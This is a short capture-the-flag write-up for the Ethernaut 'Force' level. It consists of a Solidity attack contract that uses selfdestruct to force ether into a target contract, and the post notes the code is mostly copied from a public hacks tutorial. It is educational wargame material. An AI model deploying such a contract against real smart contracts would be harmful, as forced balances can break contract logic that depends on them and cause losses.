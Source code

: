 +++
title = 'Ethernaut Level 7 - Force'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Selfdestruct to win'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface EtherGame {}

// Mostly copied from https://solidity-by-example.org/hacks/self-destruct/
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```